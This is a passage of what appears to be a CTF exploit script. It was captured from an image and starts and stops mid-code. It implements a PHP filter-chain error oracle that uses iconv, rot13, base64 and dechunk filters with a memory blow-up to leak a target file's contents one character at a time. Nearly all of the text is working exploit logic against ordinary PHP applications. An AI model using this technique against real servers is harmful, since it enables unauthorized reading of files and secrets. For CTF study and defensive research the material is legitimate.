 ```python
In the CTF you coud porbably just guess from there once you have the letters. But if you actually want a full leak you can base64 encode a third time and use the first two letters of the resulting  
string to figure out which number it is.  
"""  
  
rot1 = 'convert.iconv.437.CP930'  
be = 'convert.quoted-printable-encode|convert.iconv..UTF7|convert.base64-decode|convert.base64-encode'  
o = ''  
  
  
def find_letter(prefix):  
    if not req(f'{prefix}|dechunk|{blow_up_inf}'):  
        # a-f A-F 0-9  
        if not req(f'{prefix}|{rot1}|dechunk|{blow_up_inf}'):  
            # a-e  
            for n in range(5):  
                if req(f'{prefix}|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'edcba'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|string.tolower|{rot1}|dechunk|{blow_up_inf}'):  
            # A-E  
            for n in range(5):  
                if req(f'{prefix}|string.tolower|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'EDCBA'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|convert.iconv.CSISO5427CYRILLIC.855|dechunk|{blow_up_inf}'):  
            return '*'  
        elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # f  
            return 'f'  
        elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # F  
            return 'F'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|string.rot13|dechunk|{blow_up_inf}'):  
        # n-s N-S  
        if not req(f'{prefix}|string.rot13|{rot1}|dechunk|{blow_up_inf}'):  
            # n-r  
            for n in range(5):  
                if req(f'{prefix}|string.rot13|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'rqpon'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|string.rot13|string.tolower|{rot1}|dechunk|{blow_up_inf}'):  
            # N-R  
            for n in range(5):  
                if req(f'{prefix}|string.rot13|string.tolower|' + f'{rot1}|{be}|' * (  
                        n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'RQPON'[n]  
                    break  
            else:  
                err('something wrong')  
```